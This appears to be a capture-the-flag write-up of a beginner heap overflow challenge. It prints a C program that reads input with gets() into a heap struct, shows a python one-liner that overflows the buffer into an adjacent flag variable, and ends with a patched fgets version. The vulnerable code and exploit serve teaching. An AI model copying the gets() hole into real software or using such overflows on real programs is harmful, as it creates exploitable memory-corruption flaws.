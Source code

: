 Let's take a look at the source code...

```
#include <stdlib.h>
#include <stdio.h>

struct struct0 
{
  char buf0[100];
  int var0;
};

int main()
{
  struct struct0 *p0; 

  p0 = malloc(sizeof(struct struct0));
  printf("Insert text here...\n");
  p0->var0 = 0;
  gets(p0->buf0);
  
  if (p0->var0)
  {
    printf("Well aren't you the well rounded researcher. Level Cleared\n");
  }
}
```

So looking at this code, we see a vulnerabillity that is similar to pretty much every buf_ovf challenge. It uses a call to gets() to input data into p0->buf0. However unlike the buf_ovf challenges, we are dealing with the heap instad of typical stack memory. You can see that in the code, a structutre "struct0" is defined, and in main p0 is a structure that is allocated memory in the heap to hold an instance of the struct0 structure. However exploiting this will be similar to that of the buf_ovf challengeds (this time).

We see that in order to clear the level, we have to set p0->var0 equal to anything other than 0. We see that we have unlimited input to p0->buf0, which is stored right next to p0->var0. We should be able to write 101 characters to p0->buf0, and it will overflow into p0->var0. Let's try it (btw the reason why I can use 0, is because the ascii character 0 isn't actually interpreted as 0 in hex and decimal forms).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ python -c 'print "0"*101' | ./h0 
Insert text here...
Well aren't you the well rounded researcher. Level Cleared
```

Just like that, we pwned the binary. Now let's patch it just like a buf_ovf challenge.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ cat h0_secure.c
#include <stdlib.h>
#include <stdio.h>

struct struct0 
{
  char buf0[100];
  int var0;
};

int main()
{
  struct struct0 *p0; 

  p0 = malloc(sizeof(struct struct0));
  printf("Insert text here...\n");
  p0->var0 = 0;
  fgets(p0->buf0, sizeof(p0->buf0), stdin);
  
  if (p0->var0)
  {
    printf("Well aren't you the well rounded researcher. Level Cleared\n");
  }
}
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ python -c 'print "0"*101' | ./h0_secure 
Insert text here...
guyinatuxedo@tux:/Hackery/escape/heap_exp/h0$ 
```

